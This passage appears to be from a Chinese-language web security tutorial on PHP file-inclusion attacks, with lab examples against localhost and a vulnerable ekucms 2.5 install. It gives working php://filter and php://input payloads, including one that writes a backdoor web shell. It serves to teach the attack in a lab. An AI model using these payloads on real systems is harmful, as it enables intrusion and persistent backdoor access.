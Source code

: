 ### php://filter读取文件源码用法

```
php://filter/read=convert.base64-encode/resource=[文件名]
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

　读取`1.txt`文件源码

![](https://gitee.com/YatJay/image/raw/master/img/202203131717932.png)

得到base64加密后的源码(为避免直接输出源码时显示乱码，特意使用base64加密)

解密后得到源码

![](https://gitee.com/YatJay/image/raw/master/img/202203131719357.png)

### php://input + [POST DATA]执行php代码用法

```
http://127.0.0.1/include.php?file=php://input

[POST DATA部分]
<?php phpinfo(); ?>
```

执行`<?php phpinfo(); ?>`代码

![](https://gitee.com/YatJay/image/raw/master/img/202203131721397.png)

### php://input + [POST DATA]写入一句话木马用法

```
http://127.0.0.1/include.php?file=php://input

[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

使用该伪协议写入一个`shell.php`后门文件

![](https://gitee.com/YatJay/image/raw/master/img/202203131723619.png)

## 某CMS程序文件包含利用-黑盒(ekucms)

程序文件：https://pan.baidu.com/s/1x_mwVF--xxmoKAvDJ8mRsw   提取码: xiao

下载上述文件解压后在本地搭建，搭建成功如下图所示

![](https://gitee.com/YatJay/image/raw/master/img/202203132138132.png)

黑盒测试，已知CMS指纹，尝试搜索相关漏洞：ekucms 漏洞。发现ekucms 2.5存在本地文件包含漏洞，参考文章：https://www.cnblogs.com/csnd/p/11807743.html

不能进行远程文件包含，只能进行本地文件包含，本地文件包含有如下两种思路
